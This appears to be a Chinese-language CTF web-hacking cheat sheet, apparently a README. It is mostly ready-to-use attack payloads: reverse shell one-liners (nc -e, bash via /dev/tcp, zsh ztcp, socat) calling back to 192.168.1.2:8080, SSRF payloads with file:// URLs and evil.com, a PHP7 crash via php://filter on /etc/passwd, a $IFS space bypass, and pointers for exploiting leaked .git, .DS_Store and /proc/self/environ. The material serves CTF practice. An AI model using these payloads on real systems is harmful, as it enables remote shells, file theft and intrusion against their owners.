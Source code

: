 ## 反弹shell
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## ssrf常用payload
`admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php`
`file://user@evil.com:80@www.google.com//var/www/html/index.php%23`

## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## $IFS
空格可以使用$IFS代替

## 敏感文件
robots.txt .git .svn .swp ~ .bak .zip .rar .DS_Store源码，目录泄露

.git泄露利用EXP:https://github.com/lijiejie/GitHack
.DS_Store 利用: https://github.com/lijiejie/ds_store_exp
进程环境变量: /proc/self/environ 

## 上传二次渲染
有时候上传文件时php会用组件把你的文件格式更改为jpg，需要用/ctf/web/php/php_jpg.php中的脚本进行绕过